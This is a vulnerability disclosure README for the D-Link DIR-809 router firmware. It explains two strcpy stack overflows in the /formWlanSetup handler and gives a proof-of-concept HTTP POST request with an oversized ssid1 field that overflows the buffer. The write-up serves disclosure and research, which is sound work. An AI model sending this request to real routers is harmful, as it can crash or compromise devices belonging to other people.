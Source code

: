 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formWlanSetup` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_80040af8`, which is called by `FUN_80041fc4`( page `/formWlanSetup` ), we find two stack overflow vulnerabilities. Each of them allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"ssid_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar1` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_18`. 

![2021-05-10_11h44_26](README/2021-05-10_11h44_26.png)

The second vulnerability follows the same paradigm as the first one. Firstly, the function gets the user input in `pcVar1` and then copies it to `local_18` without checking its length. 

![2021-05-10_11h52_46](README/2021-05-10_11h52_46.png)



## PoC

``` 
POST /formWlanSetup.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 436
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=HQLFFU3LE1
Connection: close

addWlProfile=1&ssid1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```





## Acknowledgment

Credit to  [@Ainevsia](https://github.com/Ainevsia), [@peanuts62](https://github.com/peanuts62), [@Lnkvct](https://github.com/Lnkvct/) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group. 

